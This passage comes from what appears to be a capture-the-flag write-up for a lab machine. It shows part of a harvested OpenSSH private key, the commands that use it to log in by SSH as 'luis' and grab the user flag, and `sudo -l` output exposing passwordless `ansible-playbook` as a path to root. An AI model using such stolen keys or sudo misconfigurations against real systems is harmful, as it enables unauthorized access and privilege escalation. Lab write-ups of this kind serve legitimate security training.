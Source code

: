 ```
AMylzR06Y5NItOoNYAiTVux4W8nQuAqxDRZVqjnhPHrFe/UQLlT/v/khlnngHHLwutn06n
bupeAfHqGzZYJi13FEu8/2kY6TxlH/2WX7WMMsE4KMkjy/nrUixTNzS+0QjKUdvCGS1P6L
hFB+7xN9itjEtBBiZ9p5feXwBn6aqIgSFyQJlU4e2CUFUd5PrkiHLf8mXjJJGMHbHne2ru
p0OXVqjxAW3qifK3UEp0bCInJS7UJ7tR9VI52QzQ/RfGJ+CshtqBeEioaLfPi9CxZ6LN4S
1zriasJdAzB3Hbu4NVVOc/xkH9mTJQ3kf5RGScCYablLjUCOq05aPVqhaW6tyDaf8ob85q
/s+CYaOrbi1YhxhOM8o5MvNzsrS8eIk1hTOf0msKEJ5mWo+RfhhCj9FTFSqyK79hQBAAAA
wQCfhc5si+UU+SHfQBg9lm8d1YAfnXDP5X1wjz+GFw15lGbg1x4YBgIz0A8PijpXeVthz2
ib+73vdNZgUD9t2B0TiwogMs2UlxuTguWivb9JxAZdbzr8Ro1XBCU6wtzQb4e22licifaa
WS/o1mRHOOP90jfpPOby8WZnDuLm4+IBzvcHFQaO7LUG2oPEwTl0ii7SmaXdahdCfQwkN5
NkfLXfUqg41nDOfLyRCqNAXu+pEbp8UIUl2tptCJo/zDzVsI4AAADBAOUwZjaZm6w/EGP6
KX6w28Y/sa/0hPhLJvcuZbOrgMj+8FlSceVznA3gAuClJNNn0jPZ0RMWUB978eu4J3se5O
plVaLGrzT88K0nQbvM3KhcBjsOxCpuwxUlTrJi6+i9WyPENovEWU5c79WJsTKjIpMOmEbM
kCbtTRbHtuKwuSe8OWMTF2+Bmt0nMQc9IRD1II2TxNDLNGVqbq4fhBEW4co1X076CUGDnx
5K5HCjel95b+9H2ZXnW9LeLd8G7oFRUQAAAMEAyHfDZKku36IYmNeDEEcCUrO9Nl0Nle7b
Vd3EJug4Wsl/n1UqCCABQjhWpWA3oniOXwmbAsvFiox5EdBYzr6vsWmeleOQTRuJCbw6lc
YG6tmwVeTbhkycXMbEVeIsG0a42Yj1ywrq5GyXKYaFr3DnDITcqLbdxIIEdH1vrRjYynVM
ueX7aq9pIXhcGT6M9CGUJjyEkvOrx+HRD4TKu0lGcO3LVANGPqSfks4r5Ea4LiZ4Q4YnOJ
u8KqOiDVrwmFJRAAAACWx1aXNAc2VhbAE=
-----END OPENSSH PRIVATE KEY-----
```

We can use this key now to log in as Luis and grab the user flag after setting the correct permissions on it.

```php
$ vi id_rsa
$ chmod 600 id_rsa
$ ssh -i id_rsa luis@10.129.173.76
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

...[snip]...

Last login: Sat Jul 10 20:42:12 2021 from 10.10.14.68
-bash-5.0$ ls
gitbucket.war  run.yml  test  user.txt
-bash-5.0$ wc -c user.txt
33 user.txt
```

# Root

Looking at sudo permissions, we see that Luis can run `ansible-playbook` on any configuration file which gives us a quick way to get to root.

```php
-bash-5.0$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
```
